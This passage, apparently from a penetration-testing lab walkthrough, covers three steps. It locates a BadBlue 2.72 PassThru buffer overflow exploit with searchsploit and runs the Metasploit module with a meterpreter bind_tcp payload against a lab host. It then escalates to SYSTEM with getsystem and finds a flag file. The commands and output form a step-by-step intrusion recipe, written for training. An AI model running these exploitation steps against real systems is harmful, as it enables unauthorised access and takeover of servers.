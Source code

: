 We have received an output stating that the badblue 2.7 server is vulnerable to a PassThru buffer overflow.

`searchsploit -m 4784`:
```
  Exploit: BadBlue 2.72 - PassThru Remote Buffer Overflow
      URL: https://www.exploit-db.com/exploits/4784
     Path: /usr/share/exploitdb/exploits/windows/remote/4784.pl
File Type: Perl script text executable

Copied to: /root/4784.pl ←
```

`cat /root/4784.pl`.

**Step 12**.

`search badblue`, `use exploit/windows/http/badblue_passthru`, `set PAYLOAD windows/x64/meterpreter/bind_tcp`, `show options`, `set RHOSTS demo1.ine.local`, `exploit`.

The demo1.ine.local machine is not accessible from the Kali machine, so we can't use the reverse_tcp payload. This is an essential step for us to choose the correct payload. In this case, we have to use the `bind_tcp` payload to gain the meterpreter session. 

**Step 13**.

`sysinfo`:
```
Computer        : ATTACKDEFENSE
OS              : Windows 2012 R2 (6.3 Build 9600).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 1
Meterpreter     : x64/windows
```

`getuid`:
```
Server username: ATTACKDEFENSE\Administrator
```

`getsystem`:
```
...got system via technique 1 (Named Pipe Impersonation (In Memory/Admin)).
```

`getuid`:
```
Server username: NT AUTHORITY\SYSTEM
```

**Step 14**.

`shell`, `where /R C:\\ "flag*"`:
```
C:\FLAG1.txt
```

